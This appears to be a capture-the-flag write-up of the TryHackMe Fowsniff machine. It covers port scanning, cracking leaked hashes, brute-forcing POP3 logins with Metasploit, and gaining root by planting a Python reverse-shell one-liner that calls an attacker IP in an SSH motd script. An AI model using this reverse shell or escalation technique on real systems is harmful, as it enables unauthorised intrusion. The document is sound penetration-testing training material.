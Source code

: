 ```yaml
---
layout: post
title: Fowsniff CTF
date: '2024-06-01'
description: "Fowsniff CTF is a guided boot2root machine on TryHackMe"
categories: [THM]
tags: Linux
---
```

## MACHINE INFO

> **[Fownsiff CTF](https://tryhackme.com/r/room/ctf)** is an easy guided boot2root machine that leverages the use of a metasploit exploit to gain user ssh credentials and edit a bash script in the user called `cube.sh` to include a reverse shell payload that will give us a shell to fetch the flag.

This boot2root machine is brilliant for new starters. You will have to enumerate this machine by finding open ports, do some online research (its amazing how much information Google can find for you), decoding hashes, brute forcing a pop3 login and much more!

## Enumeration
Nmap scan of the target
```shell
┌──(p0s3id0n㉿kali)-[~/thm]
└─$ nmap -sCV -p- -A 10.10.160.109 --min-rate=10000ms
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 23:17 BST
Nmap scan report for 10.10.160.109
Host is up (0.63s latency).
Not shown: 64580 filtered tcp ports (no-response), 951 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING UIDL TOP RESP-CODES CAPA
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: ID LITERAL+ listed AUTH=PLAINA0001 Pre-login post-login more LOGIN-REFERRALS OK have IDLE capabilities ENABLE SASL-IR IMAP4rev1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.40 seconds

```

Open ports are: 22, 80,110,143
Found a website on port 80 saying that the service is temporarily down and employee information has been leaked. Customer information is safe but employees are encouraged to change their passwords.
![img-description](1.png)
![img-description](2.png)
![img-description](3.png)

Also found the official twitter account of the company.
![img-description](4.png)
![img-description](5.png)
There was a pastebin containing the passwords but the site was down so I used the github link on the challenge hint (https://github.com/berzerk0/Fowsniff)

The link contained a list of employee usernames and passwords. We are expected to crack the password hashes. I used (https://crackstation.net/) for this.
Dumped passwords and usernames:
![img-description](6.png)
Cracked passwords:
![img-description](7.png)

In order to use the metasploit exploit, we have to create 2 files, one for the cracked passwords and another for the usernames.
From the hint, we are guided to use the following metasploit package: auxiliary/scanner/pop3/pop3_login
![img-description](8.png)
![img-description](9.png)

Set the options and make sure to change the user and pass files to the users and pass files we set earlier. 

After running the exploit, we got user seina's password 
![img-description](10.png)

I then used a netcat listener to connect to the pop3 server using seina's credentials.
![img-description](11.png)
The user had 2 emails in her inbox: one from the system admin Stone and one from another user baksteen.

The output points towards use of ssh to login to the application using the temporary password and the sender's username.
Temp password:
![img-description](12.png)
```shell 
Password : S1ck3nBluff+secureshell
```
I first tried logging in using seina's username but that did not work. I then tried stone's username because he was the sender of the first email but that also did not work.
Then I looked at the second email and found the baksteen user as the sender. 
Sender's username:
![img-description](13.png)

What groups does the user belong to?
Using the id command we found the user belong to the users and baskteen group.
![img-description](14.png)

We are given a hint : cube.sh
So I used the following command to find the location of the flag.
```shell
find / -name "cube.sh"
```
![img-description](15.png)

Contents of the cube.sh file
![img-description](16.png)
We have write persmissions over the file
![img-description](17.png)

Can we edit it to include reverse shell?
I used the following online site to generate a pyton3 rev shell as instructed (https://www.revshells.com/)
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.73.211",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
I pasted the rev shell payload to the cube.sh file using the vi editor.

Now came the challenging bit, how do I run the file to get a connected shell via my netcat listener.
Then I saw the hint on the machine
Hint 
> 1. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in **/etc/update-motd.d/** file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!
> 2. Run the cube file to the motd.d file.

Step one:
Look at the file specified to confirm the cube.sh file is called there. 
![img-description](19.png)
![img-description](20.png)
Now that we have confirmed the cube.sh file can be called by the motd file we can move to the next part

Step 2:
> Hint : If you have not found out already, this file is run as root when a user connects to the machine using SSH.

This means that if we attempt to connect to the machine using the same user again via ssh, we will get root privileges.

So I set up my netcat listener, opened a new tab and logged in as baskteen using ssh.

Successful root!!
![img-description](21.png)

![img-description](22.png)
